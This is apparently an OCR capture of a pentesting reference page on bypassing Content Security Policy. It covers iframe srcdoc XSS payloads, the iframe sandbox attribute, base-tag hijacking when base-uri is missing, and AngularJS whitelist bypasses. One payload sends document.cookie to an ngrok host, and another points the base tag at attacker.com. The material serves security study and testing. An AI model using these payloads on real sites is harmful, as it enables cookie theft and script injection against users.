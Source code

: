 **Other Payloads found on the wild**
```javascript
<!-- This one requires the data: scheme to be allowed -->
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
<!-- This one injects JS in a jsonp endppoint -->
<iframe srcdoc='<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
<!-- sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)-->
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```

**Iframe sandbox**

The sandbox attribute enables an extra set of restrictions for the content in the iframe. By default, no restriction is applied.
When the sandbox attribute is present, and it will:
* treat the content as being from a unique origin
* block form submission
* block script execution
* disable APIs
* prevent links from targeting other browsing contexts
* prevent content from using plugins (through <embed>, <object>, <applet>, or other)
* prevent the content to navigate its top-level browsing context
* block automatically triggered features (such as automatically playing a video or automatically focusing a form control)
The value of the sandbox attribute can either be empty (then all restrictions are applied), or a space-separated list of pre-defined values that will REMOVE the particular restrictions.
```javascript
<iframe src="demo_iframe_sandbox.htm" sandbox></iframe>
```
-----

**missing base-uri**

If the base-uri directive is missing you can abuse it to perform a dangling markup injection.
Moreover, if the page is loading a script using a relative path (like /js/app.js) using a Nonce, you can abuse the base tag to make it load the script from your own server achieving a XSS.
If the vulnerable page is loaded with httpS, make use an httpS url in the base.

```html
<base href="https://www.attacker.com/">
```
-----
**AngularJS and whitelisted domain**
```javascript
Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none' ;report-uri /Report-parsing-url;
```
If the application is using angular JS and scripts are loaded from a whitelisted domain. It is possible to bypass this CSP policy by calling callback functions and vulnerable classes. For more details visit this awesome [git](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22) repo.
